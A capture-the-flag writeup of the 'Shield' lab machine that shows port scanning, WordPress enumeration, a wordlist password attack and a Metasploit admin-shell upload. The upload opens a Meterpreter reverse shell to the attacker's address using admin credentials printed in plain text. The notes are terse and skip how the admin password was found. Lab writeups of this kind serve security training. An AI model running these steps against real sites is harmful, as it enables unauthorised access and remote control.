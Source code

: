 ```yaml
---
title: "Writeup: Shield"
date: 2021-01-02T03:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - shield
  - update
  - Windows
  - nmap
  - nikto
  - wpscan
  - sqlmap
---
```


Here are notes from the named target:

**Enumeration**

NMAP

```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.29 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.29
 ```
 vuln scan the SQL service:
 
 ```yaml
 sudo nmap -sU --script=ms-sql-info 10.10.10.29
 ```
 
 ```yaml
 PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   MySQL (unauthorized)
```

Take a look at the web server:

Shows only the IIS start page so maybe scan it:

```yaml
nikto -h 10.10.10.29
```

nikto gave no results

*start dirsearch and it finds a site in the wordpress directory*


```yaml
┌──(kali㉿kali)-[~/dirsearch]
└─$ python3 dirsearch.py -e php -u http://10.10.10.29 --exclude-status 403,401

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )                                                             
                                                                                    
Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 8853

Error Log: /home/kali/dirsearch/logs/errors-21-01-02_04-14-59.log

Target: http://10.10.10.29/                                                         
                                                                                    
Output File: /home/kali/dirsearch/reports/10.10.10.29/_21-01-02_04-15-00.txt

[04:15:00] Starting: 
[04:16:03] 301 -    0B  - /Wordpress/  ->  http://10.10.10.29/wordpress/
[04:18:32] 200 -   24KB - /wordpress/                   
[04:18:32] 200 -    3KB - /wordpress/wp-login.php
                                                             
Task Completed   

```

*Wordpress Site with Login page*

Scan with wpscan:

```yaml
wpscan --url http://10.10.10.29/wordpress --enumerate p
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.10
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.10.29/wordpress/ [10.10.10.29]
[+] Started: Sat Jan  2 04:26:20 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.29/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://10.10.10.29/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.29/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.1 identified (Insecure, released on 2019-05-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.10.29/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>
 |  - http://10.10.10.29/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>

[i] The main theme could not be detected.

[+] Enumerating Most Popular Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] mesmerize-companion
 | Location: http://10.10.10.29/wordpress/wp-content/plugins/mesmerize-companion/
 | Latest Version: 1.6.120
 | Last Updated: 2020-12-14T17:38:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | The version could not be determined.

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

```
Password attack with WPScan is possible but time consuming:

```yaml
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://10.10.10.29/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin --max-threads 20   
```
Searchsploit  for WordPress version 5.2.1 found no exploits looking in google - nothing in google:

I signed up for the free wpscan API and added that to my host. then reran wpscan

Basically it showed 25 vulnerabilities but as we have admin access without launching going to use msf6

**METASPLOIT**

remember use and set commands also run and exploit

as I am on a VPN set LHOST otherwise it uses non vpn address


Google search for [metasploit wordpress reverse shell][msf6-commands]

```yaml
msf6 auxiliary > use exploit/unix/webapp/wp_admin_shell_upload 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
PASSWORD => P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /wordpress
targeturi => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.29
RHOSTS => 10.10.10.29
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.14.87
LHOST => 10.10.14.87
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.87:4444 
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/hWGKLAJXgv/rRORqnxhOH.php...
[*] Sending stage (39282 bytes) to 10.10.10.29
[*] Meterpreter session 1 opened (10.10.14.87:4444 -> 10.10.10.29:51869) at 2021-01-04 16:16:53 -0500
[+] Deleted rRORqnxhOH.php
[+] Deleted hWGKLAJXgv.php
[!] This exploit may require manual cleanup of '../hWGKLAJXgv' on the target

meterpreter > 
```
## YEA













https://www.hackingarticles.in/wordpress-reverse-shell/[msf6-commands]:  
